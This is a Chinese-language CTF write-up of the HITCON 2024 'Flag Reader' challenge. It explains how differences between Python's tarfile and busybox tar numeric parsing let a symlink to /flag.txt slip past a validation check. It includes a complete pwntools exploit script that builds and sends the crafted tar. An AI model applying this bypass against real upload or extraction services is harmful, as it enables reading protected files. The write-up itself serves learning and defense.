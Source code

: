 ```yaml
---
title: "HITCON CTF 2024 Writeup"
date: 2024-07-28T00:00:00+08:00
draft: false
github_link: "https://github.com/Jimmy01240397/CTF-writeup"
author: "Chumy"
tags:
  - CTF
image: /images/CTF.png
description: ""
toc: 
---
```


# hitconctf-2024-writeup

這場與 `星爆吉娃娃`、`BambooFox`、以及我們 `B33f 50UP` 所組成的 `星爆牛炒竹狐` 隊伍一起打到了世界第 24 名、台灣排名第一名，並且打進今年 HITCON CTF 決賽。

這邊就來寫一下我解的題目 writeup。

## 戰績

![image](https://github.com/user-attachments/assets/4278d28e-9f26-4ef1-9ebb-443a0a18adce)

![image](https://github.com/user-attachments/assets/fb014145-7e99-4cb2-8f6d-b3e50ee87d4d)

![image](https://github.com/user-attachments/assets/f33a0522-3ffc-4306-a5f3-b9f7a180bb7b)

## Flag Reader

![image](https://github.com/user-attachments/assets/a3a33711-1427-4d0b-ab7b-c1c11c218d55)

目標是上傳一個帶有 flag.txt -> /flag.txt 的 symlink，但是 server 的 python 會用 tarfile 做一次 tarinfo 的檢查，檢查一定要是 file 且名字不能帶 flag.txt，檢查過才會用 subprocess 跑 busybox tar 去解檔。

首先我先去看[tarfile 定義為 isfile 的檔案類型](https://github.com/python/cpython/blob/b455a5a55cb1fd5bb6178a969e8ebd0e6e91b610/Lib/tarfile.py#L122)

```python
REGULAR_TYPES = (REGTYPE, AREGTYPE,
                 CONTTYPE, GNUTYPE_SPARSE)
```

發現 typebyte 要設成 `\0`、`0`、`7`、`S` isfile 結果才會是 true。

最一開始我注意到 `S` 這個東西，發現是 [GNU 特有的 type](https://www.gnu.org/software/tar/manual/html_section/Sparse-Formats.html) 但是不知道為何我用自己 linux 測以後，發現 `tarfile` 會認 Sparse file 但是 `tar` 不知道為何還是按照一般的檔案去解，這邊可能有待研究。

反正我先建了一個 tar 包了兩個檔案，一個是一個動過手腳的空 Sparse file 一個就 flag 的 symlink，這邊的製作方式是。

```bash
touch 1
ln -s /flag.txt flag.txt
tar cvf 1 flag.txt
```

接著用 Hex editer 改，把 header offset 482 的 isextended 設成 true （非 \0）這樣他就會多讀一個 Block 作為 Sparse 的 extend header，那那個 Block 原本是放 flag.txt 的 header 就會被蓋掉，這樣 `tarfile` 就只會認出個檔案而已，但是因為上面講的 tar 沒認 Sparse file 所以她解開就會把兩個檔案都解開，應該就能繞過檢查。

但是發現失敗了，自己架一次以後發現原因出在 [busybox tar 的這個位置](https://github.com/brgl/busybox/blob/abbf17abccbf832365d9acf1c280369ba7d5f8b2/archival/libarchive/get_header_tar.c#L432)可以發現他沒有實作 Sparse file，然後遇到沒有實作的 type 就會直接 Crash。

因此我開始找別的突破點，後來發現。

我們可以去比對 python tarfile 跟 busybox tar 的 source code 裡面讀取數字的地方。
[tarfile](https://github.com/python/cpython/blob/3.12/Lib/tarfile.py#L175)
[busybox tar](https://git.busybox.net/busybox/tree/archival/libarchive/get_header_tar.c?h=1_36_stable#n21)

可以發現兩邊的行為有很多不一致，其中有一個地方是 busybox tar 那邊取數字的取法是把該 field 範圍的字串用 `strtoull` 以 base 8 轉成 `unsigned long long`，而 `strtoull` 會從 low byte 開始讀數字，讀到第一個非數字為止，而接下來會做判斷。

```c
v = strtoull(str, &end, 8);
/* std: "Each numeric field is terminated by one or more
 * <space> or NUL characters". We must support ' '! */
if (*end != '\0' && *end != ' ') {
```

可以看到他會檢查非數字如果是 '\0' 或 ' ' 就不會走進 if，而裡面是處理大數字時改為用 base 256 計算的方式。也就是說如果我們把數字的 field 改成 `0 1111111` 這類的，他會得到 `0`。

接著看一下 `tarfile` 的 `nti`。

```python
def nts(s, encoding, errors):
    """Convert a null-terminated bytes object to a string.
    """
    p = s.find(b"\0")
    if p != -1:
        s = s[:p]
    return s.decode(encoding, errors)

def nti(s):
# .....................
    else:
        try:
            s = nts(s, "ascii", "strict")
            n = int(s.strip() or "0", 8)
        except ValueError:
            raise InvalidHeaderError("invalid header")
# .....................
```

可以看到他會先找到第一個 '\0' 以後將前面的 byte 做 decode 以後用 int 以 base 8 轉成整數，那如果按照上面用 `0 1111111` 會發生甚麼事情。

```
>>> int('0 11111', 8)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ValueError: invalid literal for int() with base 8: '0 11111'
```

可以發現他會直接 `ValueError` 而 `ValueError` 會 raise `InvalidHeaderError`

接著去看 `TarFile.next` 


```python
tarinfo = None
while True:
    try:
        tarinfo = self.tarinfo.fromtarfile(self)
    except EOFHeaderError as e:
        if self.ignore_zeros:
            self._dbg(2, "0x%X: %s" % (self.offset, e))
            self.offset += BLOCKSIZE
            continue
    except InvalidHeaderError as e:
        if self.ignore_zeros:
            self._dbg(2, "0x%X: %s" % (self.offset, e))
            self.offset += BLOCKSIZE
            continue
        elif self.offset == 0:
            raise ReadError(str(e)) from None
#...............................
    break

if tarinfo is not None:
    self.members.append(tarinfo)
else:
    self._loaded = True

return tarinfo
```

可以發現如果 `InvalidHeaderError` 且 `self.offset != 0` 也就是不是第一個 block 的時候就會停止讀取。所以如果我在第二個檔案的 tar header 裡隨便找個數字並塞個 space 的話，`tarfile` 就會只認出一個檔案，這時如果我把 `flag.txt` 的 symlink 放在第二個檔案以後，`tarfile` 就不會檢查到，同時又可以被 busybox 的 `tar` 解出來。這樣就能繞過檢查了。

exploit:

```python
from pwn import *
import subprocess
from pathlib import Path
from tempfile import TemporaryDirectory
import base64
import sys

BLOCK_SIZE = 512

def calculate_tar_checksum(header):
    if len(header) != BLOCK_SIZE:
        raise ValueError(f"Header must be exactly {BLOCK_SIZE} bytes.")

    checksum = 0

    for i in range(BLOCK_SIZE):
        if 148 <= i < 156:
            checksum += 32
        else:
            checksum += header[i]

    return checksum

with TemporaryDirectory() as tmpdir:
    subprocess.run(
        ["touch", '1'],
        check=True,
        cwd=tmpdir,
    )
    subprocess.run(
        ["touch", '2'],
        check=True,
        cwd=tmpdir,
    )
    subprocess.run(
        ["ln", "-s", "/flag.txt", 'flag.txt'],
        check=True,
        cwd=tmpdir,
    )
    subprocess.run(
        ["tar", "cvf", "payload.tar", '1', '2', 'flag.txt'],
        check=True,
        cwd=tmpdir,
    )
    payload = Path(tmpdir) / "payload.tar"
    with open(payload, "rb") as f:
        payloadbytes = f.read()

payloadbytes = bytearray(payloadbytes)
payloadbytes[1 * BLOCK_SIZE + 0x7D] = ord(' ')
payloadbytes = bytes(payloadbytes)
header_block = payloadbytes[1 * BLOCK_SIZE:2 * BLOCK_SIZE]
checksum = oct(calculate_tar_checksum(header_block))[2:].zfill(6)
payloadbytes = bytearray(payloadbytes)
for i in range(len(checksum)):
    payloadbytes[1 * BLOCK_SIZE + 0x94 + i] = ord(checksum[i])
payloadbytes = bytes(payloadbytes)

payloadbase64 = base64.b64encode(payloadbytes)
conn = remote(sys.argv[1], int(sys.argv[2]))
conn.sendline(payloadbase64)
print(conn.recvuntil(b'\n\n'))
```

![image](https://hackmd.io/_uploads/S1rBTNfu0.png)

`hitcon{is_it_still_possible_if_I_banned_the_presense_of_flag.txt_in_the_binary_data_of_the_tar_file?}`


